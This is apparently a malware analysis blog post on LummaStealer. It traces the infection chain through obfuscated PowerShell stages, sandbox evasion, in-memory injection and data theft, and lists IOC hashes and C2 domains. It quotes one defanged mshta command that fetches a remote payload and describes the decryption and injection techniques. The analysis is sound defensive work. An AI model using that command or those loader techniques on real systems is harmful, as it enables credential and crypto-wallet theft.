 ```yaml
---
layout: post
title: LummaStealer Malware Static and Dynamic Analysis
date: 2025-02-17
image: 13/00-main.jpg
tags: malware ReverseEngineering
---
```


## Analysis Summary
A .NET InfoStealer malware infecting windows devices through malicious advertising that could be navigated by the user that led him to download malicious executable file to drop and execute stealer malware using multi stages of malicious powershell scripts.

## Static Analysis
A command has been executed on the target that dropped another WSH script.
```powershell
"mshta.exe" hxxps[:]//macphotoeditor[.]shop/singl6[.]mp4
```

![1.png](/img/13/1.png)

The obfuscated WSH script executed and dropped another stage of obfuscated powershell script.
![2.png](/img/13/2.png)

The third stage of powershell script is executed with `-w 1` argument to minimize and hide powershell window prompt from the user and executes obfuscated function.
![3.png](/img/13/3.png)

After de-obfuscating the third stage of powershell malware script using "PSDecode" module [https://github.com/R3MRUM/PSDecode/blob/master/PSDecode.psm1](https://github.com/R3MRUM/PSDecode/blob/master/PSDecode.psm1) the script is now more readable and using sandbox evasion techniques by checking if analysis tools processes is running and checking most common usernames used in known sandboxes.

After that, The script will drop and execute fourth stage of malware
```
hxxps[:]//journal[.]liveview[.]pw/singl6[.]vsdx
```
![4.png](/img/13/4.png)

The fourth stage of malware "**singl6.vsdx**" is another highly obfuscated powershell script with **10.18MB** in size file.
![5.png](/img/13/5.png)

Deobfuscating this type of huge powershell script is a bit tricky so we will do it in the following steps:
- STEP 1: Will take a copy of the file with *.ps1* extension for text highlighting.
- STEP 2: At the end of the script will see a function that decrypts and executes the obfuscated data.
![6.png](/img/13/6.png)

There's a function called `fdsjnh()` that tries to decrypt a specific data stored in variable above using XOR key and then decodes it using `FromBase64String()` functionality to base64 decode it.
Then, It takes the decrypted data and tries to execute it in memory. So if we tried to print the decrypted data when it returns from the function without executing the actual decrypted code we will be able to retrieve the plain text readable code after it gets decrypted.
![7.png](/img/13/7.png)

Now it's more obvious. It defines a variables that will be used to allocate and **RWX (Read_Write_Executable)** memory page that will be used later to store another decrypted malicious code and injects it into the memory in order to executes it.
![8.png](/img/13/8.png)

As below, It's using multiple windows API calls from **kernel32.dll** for creating RWX memory section. `VirtualProtect(), GetCurrentProcess(), VirtualQuery(), ReadProcessMemory(), WriteProcessMemory()` etc.
![9.png](/img/13/9.png)

It will tries to loop through the allocated memory section in order to write the decrypted malware into it.
![10.png](/img/13/10.png)

The actual encrypted malware is stored in `$a` variable that will be load and executes later.
![11.png](/img/13/11.png)

After that it will loads the assembly of the decoded code and executes it.
![12.png](/img/13/12.png)

In order to retrieve the encoded file, Will take the encoded base64 string stored in the `$a` variable and write it to a file. As it appears in the below image, It has **MZ** magic bytes which is a portable executable file.
![13.png](/img/13/13.png)

Another .NET stage of the malware that's packed with **.NET Reactor and Cryptor** packers.
![14.png](/img/13/14.png)

Sample has been submitted to VirusTotal.
![15.png](/img/13/15.png)

## Dynamic Analysis
After doing static analysis against the decoded malware using sysinternal tools and network analysis, We will try now to see the behavior of this infostealer when it gets executed on the system.

It tries to access multiple softwares sensitive files like Telegram, FileZilla, AnyDesk, NordVPN, etc.
![15.png](/img/13/16.png)

Stealing emails senstive data (PMail, eM, Mailbird, Outlook, etc.)
![16.png](/img/13/17.png)

Stealing crypto wallets (Etherum, Exodus, Binance, Electrum).
![17.png](/img/13/18.png)

And of course browsers data (Chrome, Edge, Firefox, AVG, Tencent, 360Browser, CentBrowser, Chedot, etc.)
![18.png](/img/13/19.png)

After completing its process, It uploads the collected data to their C2 domain URL and then exists.
```
hxxps[:]//surmisehotte[.]click/api
```
![19.png](/img/13/20.png)

## Indicator of Compromise (IOCs)

| FileName    | SHA256 Hash                                                      |
| ----------- | ---------------------------------------------------------------- |
| 1.exe       | ca00dbff57cdc83f39a213ea96726063f18aa14f9a0ae2f52c2c6d54f23dcd00 |
| singl6.mp4  | d070fad55be0d3269dbebb1de70652d82d48f0ad849f960d27d3e71018eb208c |
| singl6.vsdx | 4dff60f8e1dd41b557f47204c6f1f6d75a77efbd0fba0a01484ec3f328211cb0 |
| stage3.ps1  | 30a491d49ee9675a5114803e67c801335b893a56e42f7066be6deffdd6928632 |
| stage5.ps1  | b20da13c9fdd9a5984210edefda303d0c4db5adbb38aee82a525dec42818da91 |

| Domains                 |
| ----------------------- |
| macphotoeditor[.]shop   |
| journal[.]liveview[.]pw |
| surmisehotte[.]click    |
